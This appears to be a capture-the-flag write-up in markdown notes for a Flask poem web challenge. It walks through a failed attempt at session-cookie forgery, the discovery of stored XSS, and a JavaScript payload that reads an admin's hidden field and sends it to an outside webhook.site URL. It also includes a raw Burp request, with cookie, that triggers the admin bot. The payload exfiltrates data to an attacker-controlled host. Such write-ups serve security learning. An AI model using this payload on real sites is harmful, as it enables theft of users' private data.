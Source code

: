 https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask
- Regarding the provided source code we know, that the admin uses the flag as aboutme description. Keeping this in mind, we need to find a way to authenticate as admin to see the aboutme field or to leak the aboutme data of the admin in another way.
![[Pasted image 20231231010727.png]]
![[Pasted image 20231231010741.png]]

## Using flask-unsign to break the session-cookie and create a new one for admin
- Because we have to deal with a flask application, it can be probably possible to generate own session cookies, for arbitrary users if the secret key of the flask application is not secure. To do so we just need to send any request after the login to get a flask session cookie.
![[Screenshot from 2023-12-31 00-47-47.png]]
- Using the flask-unsign tool we can already see the structure of our flask cookie and which values are contained in it.
![[Pasted image 20231231011226.png]]
-> Secret key is 16 random bytes, so no bruteforce is possible at all. Even if this looks vulnerable at first glance, breaking the cookie generation is impossible.


# XSS (Cross Site Scripting) vulnerability
- Looking at the source code another time, we can see that the poem is rendered using the default render_template method. So our inserted poem behaves like a normal html page. Thus we can inject a html function with inline JavaScript.
![[Pasted image 20231231113812.png]]
#### Testing XSS vulnerability
- To test if the JavaScript is really allowed we just take a random html document with JavaScript inline and post it as a poem.

![[Pasted image 20231231113739.png]]

- Looking at the rendered page, we get the alert box and this ensures, that the JavaScript code is run without any restrictions.
![[Pasted image 20231231114204.png]]
- Now we do have the XSS vulnerability, but it doesn't really help us to authenticate as an admin to see the aboutme field of the admin user account.




# Inserting script into XSS vulnerability
- In this case we just assume, that there will be any option later on to force the admin to our poem site and then steal the flag and we will analyze how this can be done afterwards.
- Inserting this html code into the poem of our user, will end-up redirecting everybody, who tries to see our poem to an webhook-site, which is controlled by us. The webhook side is just used as an controlled website of us in this case, but could also be any self-owned server, which allows us to read the request, which is send after redirection.
- In our JavaScript-Code it is really important that we use the getElementByID() function to read the aboutme value of the requesting user and then send it to our webhook, for example in our case as a url parameter.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Redirect Example</title>
</head>
<body onload="redirectToWebsite()">

    <script>
        function redirectToWebsite() {
            var aboutMeValue = document.getElementById('aboutme').value;
            var redirectUrl = 'https://webhook.site/8a6b57f8-0cb5-42a6-b13d-c8af2e254e42';  
            var finalUrl = redirectUrl + '?flag=' + encodeURIComponent(aboutMeValue);
            
            window.location.href = finalUrl;
        }
    </script>

</body>
</html>

    </body>
</html>
```


# Sending POST request to visit to start worker thread
- After successfully setting up the redirection and the stealing of the aboutme field with the stored html script in our poem property. We need to find a way how to force the admin to visit our side.
- Now coming back to the source code analysis again, we take a look at the visit function at the that exactly this it done. A POST request to /visit end up enqueueing a method called visit_user_page to a worker class. Taking a look at the method visit_url_page, we see that a webdriver is used, which operates under the admin account. 
![[Pasted image 20240108225403.png]]
![[Pasted image 20240108225424.png]]
- So basically everything what, we need to do now after injecting the html, containing our javascript code is calling the visit function.

## Sending POST request to /visit using Burpsuite
- Because it is not possible to call the visit function anymore from our website if we have inserted the script, because it always redirects us to the webhook, we saved one POST request to /visit before, which can be resend now. If this wasn't done, we could still create our own POST request.
```
POST /visit/ HTTP/2
Host: 7301cb0f1403-webth-vulnerable.numa.host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: https://7301cb0f1403-webth-vulnerable.numa.host
Alt-Used: 7301cb0f1403-webth-vulnerable.numa.host
Referer: https://7301cb0f1403-webth-vulnerable.numa.host/poem/
Cookie: session=.eJwtjkFqAzEMRa8SvA7FtizZnjP0BiUMtiwloUMC9syihNy9hnb19R-I_15m1a2MmwyzfL3MaZ9hxsEsY5iz-Xxer9JO98fpn-mxbT8f5vK-nOdnl3Ezy94Pme3ezGIc2lxs8aV5UF8qqZNsMWIKKXtNgMWCFu9CjNIwKaCfYRkqoDKICxmsUgYKuUbr0EUJgVOrXEtKCTxTcs1bFuYYgFAat0x53i7G6bweQ_qfzTi6SscJeXRd9-e3PCbmgDQ9AnmybJEiUilQI9GcDzWh88KuNPP-Bc_8U9U.ZZNpnw.WB3jGKNSDpbIpaB7IUMMa8yLJ7A
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf_token=ImM0NTY1YTA0NjI2MGMwNTY3NTZhYTNiNzY2ZTE0NGI4NTEyZWMxYWQi.ZZNpag.yQSFMHTIP4N_Qr9KfivR4oa_zJw
```

- So finally we use Burpsuite to add our poem to the queue, of poems, which should be reviewed. By that we achieve, that the admin is calling our page and so we can steal his aboutme value and redirect it to the webhook, which is done as revealed before in our JavaScript Code.

![[Screenshot from 2024-01-02 02-42-16.png]]
# Checking the webhawk 
- After sending this POST request to /visit we can know check our webhook and see that there was an incoming request, where our provided paramater contains the aboutme value of the admin, which means we finally obtained the flag.

![[Screenshot from 2024-01-02 02-42-36.png]]



```dataview
LIST WITHOUT ID
flat(list(
    list(
        join(list("mkdir -p \"", "\$targetdir/$(dirname '", string(file.path) , "')\""), ""),
        join(list("cp '", string(file.path), "' \"", "$targetdir/", string(file.path), "\""), "")
    ),
    map(file.outlinks, (x) =>
        join(list("mkdir -p \"", "\$targetdir/$(dirname '", meta(x).path , "')\""), "")
    ),
    map(file.outlinks, (x) =>
        join(list("cp '", meta(x).path, "' \"$targetdir/", meta(x).path, "\""), "")
    )
))
WHERE file.path = this.file.path
```